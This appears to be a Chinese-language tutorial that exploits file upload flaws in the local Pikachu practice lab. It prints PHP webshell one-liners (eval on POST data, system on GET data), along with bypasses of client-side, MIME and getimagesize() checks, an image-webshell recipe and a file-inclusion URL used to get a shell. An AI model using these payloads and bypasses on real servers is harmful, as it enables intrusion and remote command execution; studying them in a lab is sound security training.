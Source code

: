 # 文件上传漏洞

## 1、文件上传漏洞概述

![image-20210103150856510](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103150856510.png)

```text
不安全的文件上传漏洞概述
文件上传功能在web应用系统很常见，比如很多网站注册的时候需要上传头像、上传附件等等。当用户点击上传按钮后，后台会对上传的文件进行判断 比如是否是指定的类型、后缀名、大小等等，然后将其按照设计的格式进行重命名后存储在指定的目录。 如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨，则攻击着可能会上传一些恶意的文件，比如一句话木马，从而导致后台服务器被webshell。
所以，在设计文件上传功能时，一定要对传进来的文件进行严格的安全考虑。比如：
--验证文件类型、后缀名、大小;
--验证文件的上传方式;
--对文件进行一定复杂的重命名;
--不要暴露文件上传后的路径;
--等等...
你可以通过“Unsafe file upload”对应的测试栏目，来进一步的了解该漏洞。
```

## 2、文件上传漏洞测试流程

![image-20210103150937539](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103150937539.png)

## 3、文件上传漏洞之客户端验证

下面我们来进行实战演练-客户端js验证~

![image-20210103141802325](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103141802325.png)

一句话木马的编写：

```php
<?php eval(@$_POST['bjx']); ?>
```

我们先准备一个shell.php把一句话写入进去。在准备一个这样的文件将后缀名修改为jpg

![image-20210103153149996](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153149996.png)

接下来，我们回到靶场，先上传php文件看一看。

![image-20210103153345441](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153345441.png)

这里提示我们上传的文件不符合要求，那么我们来看一下网页源代码，看一下是前端做了限制还是后端的问题。

果然是前端做的限制。这里就是通过js做的限制。

![image-20210103153442287](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153442287.png)

**1.第一种方法：**

我们看到这里有一个判断，当状态改变就会调用js。

![image-20210103155627907](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103155627907.png)

我们可以直接把判断删除~

![image-20210103155805170](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103155805170.png)

接下来上传php文件。

![image-20210103161056630](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103161056630.png)

上传成功！连接测试成功！

![image-20210103161726645](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103161726645.png)

当然也可以编写这个一句话：

```text
<?php system($_GET['x']); ?>
```

这样上传成功后，就可以访问URL并且执行命令~

```text
http://127.0.0.1/pikachu/vul/unsafeupload/uploads/shell.php?x=ifconfig
```

![image-20210103162048716](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103162048716.png)

其他方法就不做具体介绍了~还有两种哦~

## 4、文件上传漏洞之MIME类型验证

![image-20210103162257711](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103162257711.png)

PHP中的`$_FILES()`函数是用来处理客户端向服务器端上传文件的。它包含

```text
$_FILES['file']['name']  #文件名
$_FILES['file']['type']  # 文件类型
$_FILES['file']['size']  # 文件大小，单位为字节
$_FILES['file']['tmp_name'] # 存储在服务器的文件临时副本的名称
$_FILES['file']['error'] # 文件上传的错误代码
```

![image-20210103163658460](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103163658460.png)

其中`$_FILES['file']['type']`就是从我们前面说的地方取值，而http请求content-type用户可控，所以可以绕过。

抓包上传请求，修改content-type字段文件类型为允许的类型即可。

下面我们就去靶场里面进行实战演练。我们随便上传一个shell.php尝试一下。

![image-20210103164010208](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164010208.png)

好吧，不能上传~按照正常的思路，我们先看一下源代码吧~

![image-20210103164510459](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164510459.png)

![image-20210103164532041](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164532041.png)

这里是通过全局的函数来获取文件的类型。

下面我们来进行上传绕过~打开shell.php然后用burp抓包，修改为Content-Type：image/png;

![image-20210103170117295](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103170117295.png)

提交之后，我们可以看到上传成功。

![image-20210103165952655](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103165952655.png)

## 5、文件上传漏洞之getimagesize\(\)类型验证

getimagesize\(\)这个函数是php提供用来判断目标是不是一个图片的函数。

这是PHP判断图片文件大小和文件类型的函数，它以16进制读取文件，从16进制的前几位判断文件类型，如文件开头是8950 4e47是png格式的开头。这个开头也就是我们一般所说的文件幻数。绕过get\_imagesize\(\)函数可以通过制作图片马绕过（windows下可以通过命令形如`copy /b pic.png + shell.php picshell.png`来制作图片马）。也可以在木马文件头部直接加上头部如GIF98A。

这个时候就有一个问题，如果上传的文件是图片，那插入的恶意代码怎么执行呢？直接访问后缀为png格式的文件返回就是图片。这个时候可以结合文件包含的组合拳来解析恶意代码。上传图片马拿到上传位置后，结合前面说到的文件包含漏洞即可验证此部分漏洞。

![image-20210103174218370](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103174218370.png)

在linux中我们可以使用xxd命令查看文件的16进制

![image-20210103175857029](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175857029.png)

8950 4e47是png格式的开头

图片木马的制作：

![image-20210103181026498](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103181026498.png)

下面我们来制作图片木马：准备一个背景图片pic.jpg一个一句话木马shell.php合成图片马picshell.jpg

![image-20210103174934283](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103174934283.png)

下面我们来到靶场，选择制作好的图片马，上传

![image-20210103175136185](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175136185.png)

下面我们打开文件路径看一看

![image-20210103175234151](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175234151.png)

由于是以图片格式打开的，所以无法直接利用，可以通过文件包含，getshell 观察图片木马成功上传的路径和本地文件包含的路径，可以得出包含图片木马的路径，进而getshell

```text
http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2021/01/03/7809165ff19385ef35e274751323.jpg&submit=提交查询
```

![image-20210103175522223](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175522223.png)

下面我们用蚁剑连接。

![image-20210103175652446](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175652446.png)

![image-20210103175632313](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175632313.png)

## 6、文件上传漏洞-防范措施

![image-20210103181511679](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103181511679.png)

